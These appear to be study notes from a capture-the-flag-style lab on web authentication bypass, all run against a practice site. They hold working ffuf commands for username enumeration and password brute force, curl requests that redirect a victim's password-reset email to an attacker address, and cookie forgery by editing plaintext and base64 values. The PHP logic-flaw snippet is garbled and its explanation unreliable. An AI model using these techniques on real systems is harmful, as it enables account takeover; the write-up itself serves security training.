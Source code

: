 
# Authentication Bypass

Learn how to defeat logins and other authentication mechanisms to allow you access to unpermitted areas.

## Username Enumeration
A helpful exercise to complete when trying to find authentication vulnerabilities is creating a list of valid usernames, which we'll use later in other tasks.



Website error messages are great resources for collating this information to build our list of valid usernames. We have a form to create a new user account if we go to the Acme IT Support website (http://10.10.199.1/customers/signup) signup page.



If you try entering the username admin and fill in the other form fields with fake information, you'll see we get the error An account with this username already exists. We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below. The ffuf tool uses a list of commonly used usernames to check against for any matches.

`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.199.1/customers/signup -mr "username already exists"`

The `-X` argument specifies the request method, this will be a GET request by default

The `-d` argument specifies the data that we are going to send.

The `-H` argument is used for adding additional headers to the request. In this instance, we're setting the Content-Type to the webserver knows we are sending form data.

`-mr` argument is the text on the page we are looking for to validate we've found a valid username.

Create a file called valid_usernames.txt and add the usernames that you found using ffuf.

## Brute Force

Using the valid_usernames.txt file we generated in the previous task, we can now use this to attempt a brute force attack on the login page (http://10.10.199.1/customers/login).

`ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.199.1/customers/login -fc 200`

`-fc` argument to check for an HTTP status code other than 200.

## Logic Flaw

Sometimes authentication processes contain logic flaws. A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker. Logic flaws can exist in any area of a website, but we're going to concentrate on examples relating to authentication in this instance.

* Logic Flaw Example

```PHP
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```
Because the above PHP code example uses three equals signs (===), it's looking for an exact match on the string, including the same letter casing. The code presents a logic flaw because an unauthenticated user requesting /adMin will not have their privileges checked and have the page displayed to them, totally bypassing the authentication checks.

* Logic Flaw Practical

We're going to examine the Reset Password function of the Acme IT Support website (http://10.10.199.1/customers/reset).

` curl 'http://10.10.199.1/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'`

OUTPUT : We'll send you a reset email to `robert@acmeitsupport.thm`

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

`curl 'http://10.10.199.1/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'`

OUTPUT : We'll send you a reset email to `attacker@hacker.com`

For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of {username}@customer.acmeitsupport.thm

Now rerunning Curl Request 2 but with your @acmeitsupport.thm in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.

`curl 'http://10.10.199.1/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'`

## Cookie Tampering

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.

* Plain Text

The contents of some cookies can be in plain text, and it is obvious what they do. Take, for example, if these were the cookie set after a successful login:

` Set-Cookie: logged_in=true; Max-Age=3600; Path=/`

` Set-Cookie: admin=false; Max-Age=3600; Path=/`

First, we'll start just by requesting the target page:

`curl http://10.10.234.247/cookie-test`

We can see we are returned a message of: Not Logged In

Now we'll send another request with the logged_in cookie set to true and the admin cookie set to false:

`curl -H "Cookie: logged_in=true; admin=false" http://10.10.234.247/cookie-test`

We are given the message: Logged In As A User

Finally, we'll send one last request setting both the logged_in and admin cookie to true:

`curl -H "Cookie: logged_in=true; admin=true" http://10.10.234.247/cookie-test`

This returns the result: Logged In As An Admin

* Hashing

Sometimes cookie values can look like a long string of random characters; these are called hashes which are an irreversible representation of the original text.

* Encoding

Encoding is similar to hashing in that it creates what would seem to be a random string of text, but in fact, the encoding is reversible. So it begs the question, what is the point in encoding? Encoding allows us to convert binary data into human-readable text that can be easily and safely transmitted over mediums that only support plain text ASCII characters.

Common encoding types are base32 which converts binary data to the characters A-Z and 2-7, and base64 which converts using the characters a-z, A-Z, 0-9,+, / and the equals sign for padding.

Take the below data as an example which is set by the web server upon logging in:

`Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/`

This string base64 decoded has the value of `{"id":1,"admin": false}` we can then encode this back to base64 encoded again but instead setting the admin value to true, which now gives us admin access.










